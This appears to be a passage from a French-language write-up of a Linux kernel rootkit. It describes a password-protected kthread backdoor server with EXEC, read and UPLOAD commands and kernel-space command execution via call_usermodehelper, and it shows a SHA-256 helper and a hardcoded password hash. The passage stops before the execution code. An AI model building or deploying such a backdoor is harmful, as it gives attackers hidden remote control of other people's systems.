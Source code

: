 **Gestion des connexions** : Le serveur utilise un thread kernel (`kthread`) qui accepte les connexions de maniere asynchrone. Chaque connexion est traitee dans le meme thread avec un protocole d'authentification obligatoire.

**Protocole de communication** : 
1. Envoi de `AUTH_REQUIRED` au client
2. Reception et verification du mot de passe via SHA-256
3. Etablissement de la session avec `AUTH_OK`
4. Traitement des commandes (`EXEC`, `LIRE`, `UPLOAD`)

### Systeme d'authentification cryptographique

L'authentification utilise l'API cryptographique du kernel Linux pour implementer un hachage SHA-256 securise :

```c
// Calcul SHA-256 dans auth.c utilisant l'API crypto kernel
int calculer_sha256(const char *data, char *hash_hex)
{
    struct crypto_shash *tfm;
    struct shash_desc *desc;
    unsigned char hash[32];
    
    // Allocation transformateur cryptographique SHA-256
    tfm = crypto_alloc_shash("sha256", 0, 0);
    
    // Creation descripteur avec espace pour contexte crypto
    desc = kmalloc(sizeof(struct shash_desc) + crypto_shash_descsize(tfm), GFP_KERNEL);
    desc->tfm = tfm;
    
    // Calcul hash en 3 etapes : init, update, final
    crypto_shash_init(desc);
    crypto_shash_update(desc, data, strlen(data));
    crypto_shash_final(desc, hash);
    
    // Conversion binaire vers hexadecimal
    for (i = 0; i < 32; i++) {
        sprintf(hash_hex + (i * 2), "%02x", hash[i]);
    }
}
```

**Securite du stockage** : Le mot de passe n'est jamais stocke en clair. Seul le hash SHA-256 est hardcode dans le binaire :
```c
static const char PASSWORD_HASH[] = "1e29e7045275a60d15275bf8e97b5a47644844f2bca62d70476e11ad0543e000";
```

### Execution de processus depuis l'espace kernel

Le rootkit utilise `call_usermodehelper` pour executer des commandes depuis l'espace kernel avec capture complete de sortie :
